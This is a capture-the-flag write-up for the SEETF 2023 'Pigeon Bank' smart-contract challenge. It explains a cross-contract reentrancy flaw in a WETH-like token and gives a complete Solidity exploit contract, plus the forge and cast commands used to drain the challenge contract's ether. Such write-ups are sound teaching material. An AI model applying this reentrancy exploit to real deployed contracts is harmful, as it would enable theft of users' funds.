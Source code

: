 # SEETF 2023 - Pigeon Bank [6 solves / 494 points] [First blood ?]

### Description  
```  
The new era is coming. Pigeons are invading and in order to survive, the SEE
Team created PigeonBank so that people can get extremely high interest rate.
Hold PETH to get high interest. PETH is strictly controlled by the SEE team to
prevent manipulation and corruption.

nc win.the.seetf.sg 8550  
```

Our goal is to drain ether from PETH contract  
```solidity  
   function isSolved() external view returns (bool) {  
       return (peth.totalSupply() == 0) && (address(msg.sender).balance >= 2500 ether);  
   }  
```

Setup contract has 2500 ether of PETH token, PETH contract has 2500 ether and
we have 10 ether initially

```  
# cast call --rpc-url
http://win.the.seetf.sg:8549/49aa0b6c-9da2-4101-ada7-423123b1ef10
0x0C3B3C64bd2c1a8ddEf2976F02D981A475262F4c "balanceOf(address)(uint256)"
0x3Eec500Fe20CC4A62633AA8ABF508eE0C08607c0  
2500000000000000000000  
```  
```  
# cast balance --rpc-url
http://win.the.seetf.sg:8549/49aa0b6c-9da2-4101-ada7-423123b1ef10
0x5D2Ad70D5CB12794345325A6b1283E2fB203F4B2  
10000000000000000000  
```

PETH is just like WETH, but some of its function has onlyOwner modifier

```solidity  
   function deposit(address _userAddress) public payable onlyOwner {  
       _mint(_userAddress, msg.value);  
       emit Deposit(_userAddress, msg.value);  
       // return msg.value;  
   }

   function withdraw(address _userAddress, uint256 _wad) public onlyOwner {  
       payable(_userAddress).sendValue(_wad);  
       _burn(_userAddress, _wad);  
       // require(success, "SEETH: withdraw failed");  
       emit Withdrawal(_userAddress, _wad);  
   }

   function withdrawAll(address _userAddress) public onlyOwner {  
       payable(_userAddress).sendValue(balanceOf[_userAddress]);  
       _burnAll(_userAddress);  
       // require(success, "SEETH: withdraw failed");  
       emit Withdrawal(_userAddress, balanceOf[_userAddress]);  
   }  
```

But we can still call them through the pigeon bank

```solidity  
   function deposit() public payable nonReentrant {  
       peth.deposit{value: msg.value}(msg.sender);  
   }

   function withdraw(uint256 wad) public nonReentrant {  
       peth.withdraw(msg.sender, wad);  
   }

   function withdrawAll() public nonReentrant {  
       peth.withdrawAll(msg.sender);  
   }  
```

It has nonReentrant modifier, but it does not protect against cross function
or cross contract reentrancy

withdrawAll() does not follow checks-effects-interactions pattern  
```solidity  
   function withdrawAll(address _userAddress) public onlyOwner {  
       payable(_userAddress).sendValue(balanceOf[_userAddress]);  
       _burnAll(_userAddress);  
       // require(success, "SEETH: withdraw failed");  
       emit Withdrawal(_userAddress, balanceOf[_userAddress]);  
   }  
```

When it is sending value to _userAddress, it's calling _userAddress, and
_userAddress can transfer all of it's tokens to another address to prevent its
tokens being burnt

As burnAll will just burn all of the _userAddress's balance after the external
call  
```solidity  
   function _burnAll(address _userAddress) internal {  
       _burn(_userAddress, balanceOf[_userAddress]);  
   }  
```

So, we can just keep doing this to withdraw ether from PETH contract

### Exploit contract

```solidity  
// SPDX-License-Identifier: UNLICENSED  
pragma solidity ^0.8.17;

import "./Setup.sol";

contract Exploit2 {  
   PETH public peth;  
   address public exploit;  
  
   constructor(PETH _peth) {  
       peth = _peth;  
       exploit = msg.sender;  
   }  
  
   function sendBack() public {  
       peth.transfer(exploit, peth.balanceOf(address(this)));  
   }  
}

contract Exploit {  
   PigeonBank public bank;  
   PETH public peth;  
   Setup public setup;  
   address public owner;  
   Exploit2 public exploit2;  
   bool public s = true;  
  
   constructor(address _setup) payable {  
       owner = msg.sender;  
       setup = Setup(_setup);  
       bank = setup.pigeonBank();  
       peth = setup.peth();  
       exploit2 = new Exploit2(peth);  
       require(msg.value == 5 ether, "msg.value need to be 5 ether");  
       bank.deposit{value: msg.value}();  
   }  
  
   function exploit() public {  
       for (uint i; i < 100; ++i) {  
           bank.withdrawAll();  
           exploit2.sendBack();  
       }  
   }  
  
   function withdrawRemainingAndSendToOwner(uint256 amount) public {  
       bank.withdraw(amount);  
       exploit2.sendBack();  
       payable(owner).call{value: address(this).balance}("");  
   }  
  
   function setS(bool _s) public {  
       s = _s;  
   }  
  
   fallback() external payable {  
       if (s) {  
           peth.transfer(address(exploit2), peth.balanceOf(address(this)));  
       }  
   }  
}  
```

First we can just get address of PETH and pigeon bank from setup contract

```  
cast call 0xB453faF8b24c209f7cB401B8bC63C8963FfBfabf "pigeonBank()(address)"
--rpc-url http://win.the.seetf.sg:8549/6f098c9d-b048-4330-865c-cce1768e1d36  
0x7C0011474bc3a313Ff5810Bf8658ad7303305944

cast call 0xB453faF8b24c209f7cB401B8bC63C8963FfBfabf "peth()(address)" --rpc-
url http://win.the.seetf.sg:8549/6f098c9d-b048-4330-865c-cce1768e1d36  
0x2B771DeDA9f101fe8CB0993Ea8b7277a0ec6113d  
```

Then just deploy the exploit contract

```  
forge create ./src/exploit.sol:Exploit --value 5000000000000000000 --private-
key <key> --constructor-args 0xB453faF8b24c209f7cB401B8bC63C8963FfBfabf --rpc-
url http://win.the.seetf.sg:8549/6f098c9d-b048-4330-865c-cce1768e1d36  
```

Then just keep calling the exploit() function  
```  
cast send 0xB00eF71Fa0E808e74De98A07527F4C155A4AdcD4 "exploit()" --private-key
<key> --rpc-url
http://win.the.seetf.sg:8549/6f098c9d-b048-4330-865c-cce1768e1d36  
```

After a small amount is remaining, we can just disable the reentrancy and
withdraw remaining and send the ether to ourselves from the exploit contract  
```  
cast send 0xB00eF71Fa0E808e74De98A07527F4C155A4AdcD4 "setS(bool)" false
--private-key <key> --rpc-url
http://win.the.seetf.sg:8549/6f098c9d-b048-4330-865c-cce1768e1d36

cast send 0xB00eF71Fa0E808e74De98A07527F4C155A4AdcD4
"withdrawRemainingAndSendToOwner(uint256)" 5000000000000000000 --private-key

Original writeup
(https://github.com/Kaiziron/seetf2023-writeup/blob/main/pigeon_bank.md).
